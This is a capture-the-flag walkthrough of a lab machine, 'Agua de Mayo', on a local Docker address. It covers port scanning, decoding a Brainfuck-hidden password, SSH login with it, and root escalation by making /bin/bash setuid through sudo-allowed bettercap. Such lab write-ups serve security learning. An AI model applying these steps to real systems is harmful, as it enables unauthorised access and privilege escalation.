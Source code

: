 # Agua de Mayo

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

![alt text](Imagenes/Agua_1.png)

```ruby
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->

```
From Base32
 It seems we have encountered Brainfuck code, so we need a Brainfuck to ASCII translator. This word appears, which could be a possible password

```ruby
bebeaguaqueessano
```

![alt text](Imagenes/Agua_2.png)

Now we perform a subdomain enumeration using the tool GoBuster, obtaining the following:

```ruby
gobuster dir -u http://172.17.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```
![alt text](Imagenes/Agua_3.png)


## Examining the agua_ssh.jpg Image

We download the image and use tools like ExifTool or Steghide to check if there is any secret inside it. However, we do not find anything.

![alt text](Imagenes/Agua_4.png)

## Intrusion

Finally, we will try to authenticate to the SSH service.
``` ruby
user: agua
password: bebeaguaqueessano
```

![alt text](Imagenes/Agua_5.png)


## Escalation privilege

With the id command, we see that we belong to the lxd group. Possibly, if we exploit this vulnerability, we can escalate privileges.

We will see that we have a file named alpine-v3.13-x86_64-20210218_0139.tar.gz, which makes it almost certain that we should exploit lxd. But no, this is nothing more than a rabbit hole.

![alt text](Imagenes/Agua_6.png)

If we run sudo -l, we see that we can execute /usr/bin/bettercap as root.

```ruby
agua@97aaababd117:~$ sudo -l
Matching Defaults entries for agua on 97aaababd117:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 97aaababd117:
    (root) NOPASSWD: /usr/bin/bettercap

```

If we open the file with sudo, we can make our bash appear with the following command:

![alt text](Imagenes/Agua_6.png)
```ruby
! chmod +s /bin/bash
```
With this command, we will grant permissions for any user to execute a terminal with root privileges

We close the application and execute the following command in a new terminal:

```ruby
/bin/bash -p
```

Finally, we see that we are the root user.